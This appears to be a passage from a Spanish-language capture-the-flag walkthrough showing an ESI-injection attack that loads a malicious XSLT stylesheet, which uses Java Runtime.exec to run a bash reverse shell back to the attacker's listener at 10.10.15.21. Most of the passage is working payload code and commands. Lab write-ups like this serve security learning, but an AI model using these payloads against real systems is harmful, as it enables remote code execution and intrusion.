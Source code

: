 ##### shell.sh
```bash
bash -i >& /dev/tcp/10.10.15.21/1234 0>&1
```

- `sudo python3 -m http.server 8086`
- `<esi:include src="http://10.10.15.21:8086/" stylesheet="http://10.10.15.21:8086/exploit.xsl"></esi:include>`

![9](img/9.png)

![10](img/10.png)

Por último obtendremos nuestra reverse shell.

##### exploit.xsl
```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[bash /tmp/shell.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

- `nc -lvnp 1234`
- `sudo python3 -m http.server 8087`
- `<esi:include src="http://10.10.15.21:8087/" stylesheet="http://10.10.15.21:8087/exploit.xsl"></esi:include>`
